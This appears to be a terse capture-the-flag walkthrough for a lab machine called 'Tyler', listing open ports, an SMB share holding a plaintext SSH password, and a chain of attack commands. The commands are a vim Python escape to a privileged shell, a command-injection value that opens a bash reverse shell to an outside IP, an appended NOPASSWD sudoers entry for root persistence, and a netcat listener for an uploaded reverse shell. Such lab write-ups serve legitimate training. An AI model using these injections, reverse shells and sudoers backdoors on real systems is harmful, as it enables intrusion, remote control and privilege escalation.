 # KOTH TYLER

----------------
## IP: `10.10.243.130`<br />

----------------
### Open Ports -<br/>

```
22
80
139
445
3306
5000
8080
```

![image](images/nmap.png)

##### Initial access -<br/> 

![image](images/smb.png)

```
smbclient //tyler.thm/public
```

> we can get narrator's ssh password from here<br/>

username: narrator<br/>
password: X8JEETQmf3hkS65f<br/>

##### Privilege escalation of user `narrator`

```
vim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
```

### subdirectory - `betatest`

`tdurden;bash -i >& /dev/tcp/10.8.91.66/8888 0>&1`

> Same Priv-Esc as of narrator using vim <br/>

##### To get full root access -

```
echo "tdurden ALL=(ALL:ALL) NOPASSWD:ALL" >> /etc/sudoers
```

Then just do, `sudo bash` voilà you're root<br/>

##### Upload a `python` rev-shell on PORT `5000`

`http://tyler.thm:5000`<br/>

```
nc -lnvp <port>
```

![image](images/upload-port.png)
